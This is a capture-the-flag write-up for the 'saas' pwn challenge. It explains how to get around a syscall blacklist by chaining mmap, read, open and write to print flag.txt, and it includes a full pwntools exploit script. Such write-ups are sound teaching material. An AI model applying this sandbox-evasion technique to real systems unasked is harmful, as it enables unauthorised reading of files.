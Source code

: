 # [pwn] saas writeup

> You've heard of software as a service, but have you heard of syscall as a service?

In this challenge we have a binary that let us make syscalls with arbitrary parameters; before starting to dig into the code we can make some checks with checksec and with strings.
Checksec's output is:
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
So this is not looking good, everything is enabled. Analyzing the binary with strings doesn't reveal nothing really important, so the next step is to execute the binary.

```
$ ./saas 
Welcome to syscall-as-a-service!

Enter rax (decimal): 0
Enter rdi (decimal): 0
Enter rsi (decimal): 0
Enter rdx (decimal): 0
Enter r10 (decimal): 0
Enter r9 (decimal): 0
Enter r8 (decimal): 0
Rax: 0x0
```
We are basically in a while true which lets us make syscalls with arbitrary parameters (and it shows us the return value). The first thing that came into my mind was to try and call execve, but the program will prevent us from calling some blacklisted syscalls (such as execve). The complete list of all the blocked syscall is: 0x3b, 0x39, 0x38, 0x3e, 0x65, 0xc8, 0x142.

## Solution

We cannot use execve, but we can still access many other syscalls. We can assume that this binary is in the same directory in which we have our flag.txt file, so (if this is true) we can try to *open* the file, *read* its contents and *write* them on stdout. In order to do that we can use 3 syscalls (obviously, open, read and write). But there is a little problem, to open a file we need its name, which is a string and which needs to be placed somewhere in the memory of the process, but since there's PIE we have no static addresses for r/w sections that we can possibly modify. After a bit of thinking, we can just allocate our own buffer using mmap, the address will be returned from the syscall, then we will write the string "flag.txt" (null terminated) on it and we can then open the file.

In C, what we want to do is as follow:

```
void* addr = mmap(0, 128, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
read(stdin, addr, 9);
int fd = open(addr, O_RDONLY, 0644);
read(fd, addr, 64);
write(stdout, addr, 64);
```

We have access to all this syscalls, we just need to convert our parameters to decimal:
```
PROT_READ|PROT_WRITE = 3
MAP_PRIVATE|MAP_ANONYMOUS = 4
0644 = 420 (0644 is octal)
stdin = 0
stdout = 1
```

## Code
At this point we just need a program that sends everything to the process' stdin, we just need to capture the retval of the mmap (for the address) and the retval of the open (for the file descriptor).
The program is (in python) as follow (in this directory you will find the .py file):
from pwn import *
```
#p = remote("jh2i.com", 50016)

p = gdb.debug("./saas", """
c
""")


#mmap
p.sendline("9")		#rax
p.sendline("0")		#rdi
p.sendline("128")	#rsi
p.sendline("3")		#rdx
p.sendline("34")	#r10
p.sendline("0")		#r9
p.sendline("-1")	#r8

p.recvuntil("Rax: 0x")
addr = str(p.recvuntil("\n")[:-1])[2:-1]
addr = str(int(addr,16))
print("Heap address ="+addr)

#read
p.sendline("0")		#rax
p.sendline("0")		#rdi
p.sendline(addr)	#rsi
p.sendline("9")		#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.sendline("flag.txt"+'\x00')
p.recvuntil("Rax: 0x")

#open
p.sendline("2")		#rax
p.sendline(addr)	#rdi
p.sendline("0")		#rsi
p.sendline("420")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8

p.recvuntil("Rax: 0x")
fd = str(p.recvuntil("\n")[:-1])[2:-1]
fd = str(int(fd,16))
print("File descriptor ="+fd)

#read
p.sendline("0")		#rax
p.sendline(fd)		#rdi
p.sendline(addr)	#rsi
p.sendline("64")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.recvuntil("Rax: 0x")

#write
p.sendline("1")		#rax
p.sendline("1")		#rdi
p.sendline(addr)	#rsi
p.sendline("64")	#rdx
p.sendline("0")		#r10
p.sendline("0")		#r9
p.sendline("0")		#r8
p.recvuntil("r8 (decimal):")	#we can't read untill "Rax: 0x" because the flag is printed before that happen


p.interactive()
```
